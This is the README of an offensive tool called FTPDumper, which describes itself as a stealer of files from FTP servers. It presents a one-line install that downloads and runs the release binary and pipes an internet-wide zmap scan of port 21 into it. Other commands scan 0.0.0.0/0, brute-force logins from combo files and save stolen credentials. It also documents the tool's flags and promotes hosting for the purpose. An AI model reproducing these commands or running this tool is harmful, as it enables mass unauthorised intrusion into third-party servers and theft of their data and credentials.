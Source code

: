 <p align="center"><img src="https://i.ibb.co/TR8ZCyn/New-Project.png" width="256" alt="logo"></p>
<h1 align="center">FTPDumper - A FTP Servers Stealer</h1>


<p align="center">
<img alt="FTPDumper forks" src="https://img.shields.io/github/forks/MatrixTM/FTPDumper?style=for-the-badge">
<img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/MatrixTM/FTPDumper?style=for-the-badge">
<br>
<!-- <img alt="GitHub Downloads" src="https://img.shields.io/github/downloads/MatrixTM/FTPDumper/FTPDumper?style=social&color=07c1f0"> -->
<p align="center">
 <img src="https://views.whatilearened.today/views/github/MatrixTM/FTPDumper.svg" width="80px" height="28px" alt="View">
</p>

___

<p align="center"><img src="https://i.imgur.com/H39uBH3.png" width="1040" alt="features"></p>

## 📖 What is FTPDumper ?

FTPDumper is an easy-to-use yet advanced FTP server file stealer.
It can be utilized in massive FTP brute-force attacks, supporting various formats such as combo, pipe input, CIDR, files, and even a single IP address.

FTPDumper boasts a plethora of features, including:
- 💡 **Anti-Fake File Detection**: Utilizes advanced algorithms to detect and prevent the extraction of counterfeit files.
- 🔍 **Self-Implemented Scanner**: Employs an internally developed scanning mechanism to ensure thorough and efficient.
- 🖥️ **Modern and Sleek User Interface**: Offers a visually appealing and user-friendly interface for seamless navigation and operation.
- ⚡ **Fast and Memory-Safe Operation**: Executes operations swiftly while maintaining optimal memory usage to prevent system slowdowns or crashes.
- 🤝 **Smart Connection and Timeout Management**: Implements intelligent connection strategies and timeout configurations to make maximum accuracy and resource utilization.

###### Use it at your own RISK!


## 🔍 Overview

- 🚀 [Quickstart](#-quickstart)
- ⚙️ [Arguments](#%EF%B8%8F-arguments)
- 👨‍💻 [Best Way to get a server](#-best-way-to-get-a-server)

# 🚀 Quickstart

---

#### One-Line Install And Running on Fresh VPS
```bash
apt update && apt install -y zmap && wget -q $(curl -s https://api.github.com/repos/MatrixTM/FTPDumper/releases/latest | grep browser_download_url | grep "FTPDumper" | cut -d '"' -f 4) && chmod +x FTPDumper && zmap -p 21 -B 50MB -q | ./FTPDumper -l 5000
```

<details>
 <summary><b>🔧 Manual Installation</b></summary>
<h3> 1. Download FTPDumper </h3>
<p>Download FTPDumper from <a href="https://github.com/MatrixTM/FTPDumper/releases">Releases</a></p>

<h3> 2. Set Up Permission </h3>

Set up permission to FTPDumper binary file.
```bash
chmod +x FTPDumper
```

<h3> 3. Run FTPDumper </h3>

You have a few ways to use FTPDumper.

- Zmap
  - Download Zmap
  ```bash
  sudo apt install zmap
  ```
  - Run FTPDumper (Zmap)
  ```bash
  zmap -p 21 -q | ./FTPDumper -l 500 -save
  ```
  - Run FTPDumper (DevWay)
  ```bash
  ./FTPDumper -l 500 -save -s 0.0.0.0/0
  ```
  Check out [Arguments](#-arguments) to see more
</details>

---

# ⚙️ Arguments

```bash
MatrixTM@FTPDumper: ./FTPDumper --help
FTPDumper - Scan World FTP Servers and Steal Their Data

  Flags:
       --version   Displays the program version string.
    -h --help      Displays help with available flag, subcommand, and positional value parameters.
    -scan --scanner   Ip/CIDR scanner (stdin|filename|cidr|ip) (default: stdin)
    -c --combo     Combo File (user:password)
    -p --ports     Ports Split by , (Default Port: 21)
    -o --output    Output Folder (default: files)
    -f --formats   File Formats Split by , (Default Format: all)
    -l --limit     Task limit (default: 10)
    -t --timeout   Timeout in seconds (default: 5s)
    -s --save      Save Credentials in hit.txt
    -v --verbose   Verbose Mode
```

| Argument         | Description                                                                     | Default Value |
|------------------|---------------------------------------------------------------------------------|:-------------:|
| --version        | Displays the program version string.                                            |     None      |
| -h, --help       | Displays help with available flag, subcommand, and positional value parameters. |     None      |
| -scan, --scanner | IP/CIDR scanner [stdin\|filename\|cidr\|ip] stdin                               |     stdin     |
| -c, --combo      | Combo File (user:password)                                                      |   anonymous   |
| -p, --ports      | Ports Split by ,                                                                |      21       |
| -o, --output     | Output Folder files                                                             |     files     |
| -f, --formats    | File Formats Split by ,                                                         |      all      |
| -l, --limit      | Task limit                                                                      |      10       |
| -t, --timeout    | Timeout in seconds                                                              |      5s       |
| -s, --save       | Save Credentials in hit.txt                                                     |     False     |
| -v, --verbose    | Verbose Mode                                                                    |     False     |
---

# 👨‍💻 Best Way to get a server

<a href="https://aeza.net/?ref=375036"><img src="https://i.ibb.co/wgq9Ly8/aezabanner.png" width="728" height="90"  alt="aeza"></a>
##### For this subject, the best hosting I found is [Aeza](https://aeza.net/?ref=375036 "Aeza Hosting")
##### You Can buy hourly 10Gbps & Ryzen 9 Servers with a cheap price

[//]: # ()
[//]: # ()
[//]: # (## Star history)

[//]: # ()
[//]: # (---)

[//]: # (<picture>)

[//]: # (  <source)

[//]: # (    media="&#40;prefers-color-scheme: dark&#41;")

[//]: # (    srcset=")

[//]: # (      https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date&theme=dark)

[//]: # (    ")

[//]: # (  />)

[//]: # (  <source)

[//]: # (    media="&#40;prefers-color-scheme: light&#41;")

[//]: # (    srcset=")

[//]: # (      https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date)

[//]: # (    ")

[//]: # (  />)

[//]: # (  <img)

[//]: # (    alt="Star History Chart")

[//]: # (    src="https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date")

[//]: # (  />)

[//]: # (</picture>)
